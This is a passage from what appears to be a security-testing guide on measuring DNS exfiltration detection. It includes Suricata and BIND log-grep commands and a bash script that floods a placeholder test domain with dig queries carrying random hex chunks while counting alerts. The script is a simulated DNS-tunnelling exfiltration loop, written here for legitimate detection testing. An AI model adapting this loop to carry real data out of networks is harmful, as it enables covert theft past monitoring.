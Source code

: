      # Check Suricata alerts
     grep -i "DNS" /var/log/suricata/eve.json | grep "yourtestdomain.com" | jq .
     
     # Check BIND DNS server logs
     grep -i "yourtestdomain.com" /var/log/named/queries.log | \
     awk '{print $1, $5}' | sort | uniq -c | sort -nr
     ```
   
   * **Measuring detection performance**:
     ```bash
     # Script for calculating data exfiltration amount and detection rate
     #!/bin/bash
     START_TIME=$(date +%s)
     TOTAL_BYTES=1048576  # 1MB
     CHUNK_SIZE=30
     CHUNKS=$((TOTAL_BYTES / CHUNK_SIZE))
     
     # Start exfiltration
     for i in $(seq 1 $CHUNKS); do
       dig $i.$(openssl rand -hex 15).exfil.yourtestdomain.com &> /dev/null
       if [ $((i % 100)) -eq 0 ]; then
         # Check detection system every 100 requests
         ALERTS=$(grep -c "yourtestdomain.com" /var/log/security_alerts.log)
         echo "Data transmitted: $((i * CHUNK_SIZE)) bytes, Alerts detected: $ALERTS"
       fi
       sleep 0.05
     done
     
     END_TIME=$(date +%s)
     DURATION=$((END_TIME - START_TIME))
     echo "Total time: ${DURATION} seconds, Average transmission rate: $(($TOTAL_BYTES / $DURATION)) bytes/sec"
     echo "Total exfiltration attempts: $CHUNKS, Total alerts detected: $(grep -c "yourtestdomain.com" /var/log/security_alerts.log)"
     ```
   
   * **Deriving recommendations for detection threshold adjustment**:
     ```
     # Analysis result template example
     
     ## DNS Exfiltration Detection Performance Evaluation Report
     